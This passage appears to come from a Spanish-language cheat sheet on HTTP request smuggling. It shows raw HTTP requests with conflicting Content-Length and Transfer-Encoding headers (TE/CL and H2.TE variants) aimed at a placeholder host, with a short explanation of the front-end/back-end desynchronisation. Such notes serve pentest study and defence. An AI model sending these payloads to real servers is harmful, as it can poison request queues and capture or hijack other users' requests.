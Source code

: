 ```http
POST / HTTP/1.1
Host: domain.com
Content-Length: 4
Transfer-Encoding: chunked

38
POST /error HTTP/1.1
Content-Length: 30 

testing=test 
0

```

**Request2:**
```http
POST / HTTP/1.1
Host: domain.com
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

**Explicacion:**
- El **front-end** usa `Transfer-Encoding: chunked` y detecta el 0 como fin de la request. 
- El **back-end** usa `Content-Length` y considera que el body es **`5e\r\n`**.
- Esto genera que el **back-end** separe la request en 2 generando una desincronizacion. Esta desincronizacion se genera ya que el **Content-Length** es mayor a la data tramitada, por lo que el servidor queda en espera de los proximos bytes e incrusta los bytes obtenidos del proximo cliente que solicite el endpoint.
-- -
## **H2.TE**
**Request1:**
```http
POST / HTTP/2
Host: domain.com
Transfer-Encoding: chunked
Content-Length: 120

0

GET / HTTP/1.1
Host: domain.com
Content-Length: 12

testing=test
```
